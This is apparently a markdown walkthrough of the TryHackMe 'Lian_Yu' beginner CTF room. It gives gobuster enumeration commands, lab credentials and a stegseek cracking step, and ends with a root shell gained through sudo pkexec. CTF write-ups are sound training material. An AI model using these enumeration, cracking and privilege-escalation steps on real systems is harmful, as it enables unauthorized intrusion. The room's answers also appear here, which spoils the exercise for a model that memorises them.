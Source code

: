 ```yaml
---

title: Walkthrough - Lian_Yu
published: true
---
```


Welcome to Lian_YU, this Arrowverse themed beginner CTF box!

Challenge/Gobuster/Steganography/Priv-Esc

[https://tryhackme.com/room/lianyu](https://tryhackme.com/room/lianyu)

* * *

## What is the Web Directory you found?

- ``gobuster dir -u http://10.10.251.212/island/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,php -t 100 --no-error``

* * *

## what is the file name you found?

- Looking at the source code of ``/island/2100/`` give us a posslbe clue... ``you can avail your .ticket here but how?``
- we also have another clue ``vigilante`` from ``view-source:http://10.10.251.212/island/``
- running ``gobuster dir -u http://10.10.251.212/island/2100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ticket -t 100 --no-error`` can find ``/green_arrow.ticket``

```shell
This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX
```

* * *

## what is the FTP Password?

- decode from base58 to get the password ``!#th3h00d`` which we can then login to ftp with username ``vigilante``

* * *

## what is the file name with SSH password?

- login to ftp with the credentials and ``mget *``
- ``stegseek aa.jpg /usr/share/wordlists/rockyou.txt``
- ``7z x aa.jpg.out``
- ``cat shado`` we get ``M3tahuman``
- ``cd ..`` in the ftp we get another user ``slade`` that we should be able to login to ssh with.

* * *

## user.txt

- ``cat user.txt``

* * *

## root.txt

```shell
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

- ``sudo pkexec /bin/sh``
- ``cat /root/root.txt``



* * * 